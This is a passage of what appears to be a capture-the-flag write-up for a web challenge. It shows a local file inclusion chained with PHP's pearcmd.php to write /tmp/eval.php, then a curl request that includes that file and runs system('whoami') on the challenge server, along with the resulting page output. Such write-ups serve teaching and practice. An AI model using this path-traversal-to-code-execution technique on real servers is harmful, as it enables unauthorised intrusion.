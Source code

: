 ```html
Signature Key Id               sig_keyid        <not set>
Package Signature Type         sig_type         <not set>
PEAR username (for             username         <not set>
maintainers)
User Configuration File        Filename         /tmp/eval.php
System Configuration File      Filename         #no#system#config#
Successfully created default configuration file "/tmp/eval.php"
    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
</script>
</html>
(base) [hacker@hackerbook tmp]$
```

Accessing the file to run custom code.

```
(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../tmp/eval.php"  -d "1=system('whoami');"

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->

...

<script>
    let message = `
        #PEAR_Config 0.9
a:12:{s:7:"php_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/php";s:8:"data_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/data";s:7:"www_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/www";s:7:"cfg_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/cfg";s:7:"ext_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/ext";s:7:"doc_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/docs";s:8:"test_dir";s:78:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/tests";s:9:"cache_dir";s:78:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/cache";s:12:"download_dir";s:81:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/download";s:8:"temp_dir";s:77:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/temp";s:7:"bin_dir";s:72:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear";s:7:"man_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/www-data
/pear/man";}    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;
```